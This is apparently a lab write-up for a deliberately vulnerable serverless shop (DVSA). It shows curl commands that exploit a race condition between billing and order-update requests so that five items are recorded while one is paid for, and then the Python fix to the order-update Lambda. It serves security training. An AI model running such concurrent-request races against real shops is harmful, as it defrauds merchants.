


# Lesson 8: Logic Vulnerability (Race Condition)

## What is this?
By sending a billing request and an order update request at the exact same time, an attacker can pay for 1 item but have 5 recorded in the order.

## How to Reproduce
```bash
export API="https://nuxbyqip03.execute-api.us-east-1.amazonaws.com/Stage/order"
export TOKEN= #we add the token 

#Create order
curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"new","cart-id":"race-cart-001","items":{"1":1}}' | jq

#Add shipping
export ORDER_ID= #we add the order id 
curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"shipping","order-id":"'"$ORDER_ID"'","data":{"address":"123 Test St","email":"test@test.com","name":"Test User"}}' | jq

#Send billing and update
curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"billing","order-id":"'"$ORDER_ID"'","data":{"ccn":"4242424242424242","exp":"11/25","cvv":"123"}}' | jq &

curl -s "$API" -H "content-type: application/json" -H "authorization: $TOKEN" \
  -d '{"action":"update","order-id":"'"$ORDER_ID"'","items":{"1":5}}' | jq &

wait
```

## What we see
DynamoDB shows itemList: 5 and totalAmount: 0 — 5 items recorded but $0 paid.


## Fix applied
Changed the status check in DVSA-ORDER-UPDATE Lambda (order_update.py):

Before:
```python
if response["Item"]["orderStatus"] > 110:
    res = {"status": "err", "msg": "order already paid"}
    return res

update_expr = 'SET {} = :itemList'.format("itemList")
response = table.update_item(
    Key={"orderId": orderId, "userId": userId},
    UpdateExpression=update_expr,
    ExpressionAttributeValues={':itemList': itemList}
)
```

After:
```python
if response["Item"]["orderStatus"] != 100:
    return {"status": "err", "msg": "order cannot be modified"}

try:
    response = table.update_item(
        Key={"orderId": orderId, "userId": userId},
        UpdateExpression="SET itemList = :itemList",
        ConditionExpression="orderStatus = :open AND attribute_not_exists(paymentTS)",
        ExpressionAttributeValues={':itemList': itemList, ':open': 100}
    )
except Exception as e:
    return {"status": "err", "msg": "Order cannot be modified (payment in progress or already updated)"}
```

This locks the order immediately when billing starts so no updates happen.


